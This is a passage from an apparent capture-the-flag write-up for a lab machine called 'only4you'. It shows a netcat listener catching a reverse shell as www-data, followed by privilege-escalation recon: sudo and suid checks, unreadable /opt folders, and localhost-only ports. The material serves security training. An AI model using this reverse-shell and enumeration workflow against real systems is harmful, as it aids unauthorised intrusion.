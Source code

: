 I got the reverse shell.

```bash
$ nc -klvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.210] 45074
bash: cannot set terminal process group (1012): Inappropriate ioctl for device
bash: no job control in this shell
www-data@only4you:~/only4you.htb$
```

## Getting John

Once connected on the server, I solidified my shell and started looking for escalation. I  could not run sudo, I did not see any suspicious suid binaries, and I did not find any capabilities I could exploit.

The `/opt` folder had two interesting subfolders, but I could not read them.

```bash
www-data@only4you:~/only4you.htb$ ls -l /opt/
total 8
drwxr----- 6 dev dev 4096 May  6 15:40 gogs
drwxr----- 6 dev dev 4096 Mar 30 11:51 internal_app
```

I looked for ports that were only open on localhost.

```bash
www-data@only4you:~/only4you.htb$ ss -tunl
Netid                  State                   Recv-Q                  Send-Q                                          Local Address:Port                                      Peer Address:Port                  Process
udp                    UNCONN                  0                       0                                               127.0.0.53%lo:53                                             0.0.0.0:*
udp                    UNCONN                  0                       0                                                     0.0.0.0:68                                             0.0.0.0:*
tcp                    LISTEN                  0                       4096                                            127.0.0.53%lo:53                                             0.0.0.0:*
tcp                    LISTEN                  0                       128                                                   0.0.0.0:22                                             0.0.0.0:*
tcp                    LISTEN                  0                       4096                                                127.0.0.1:3000                                           0.0.0.0:*
tcp                    LISTEN                  0                       2048                                                127.0.0.1:8001                                           0.0.0.0:*
tcp                    LISTEN                  0                       70                                                  127.0.0.1:33060                                          0.0.0.0:*
tcp                    LISTEN                  0                       151                                                 127.0.0.1:3306                                           0.0.0.0:*
tcp                    LISTEN                  0                       511                                                   0.0.0.0:80                                             0.0.0.0:*
tcp                    LISTEN                  0                       128                                                      [::]:22                                                [::]:*
tcp                    LISTEN                  0                       4096                                       [::ffff:127.0.0.1]:7687                                                 *:*
tcp                    LISTEN                  0                       50                                         [::ffff:127.0.0.1]:7474                                                 *:*
```
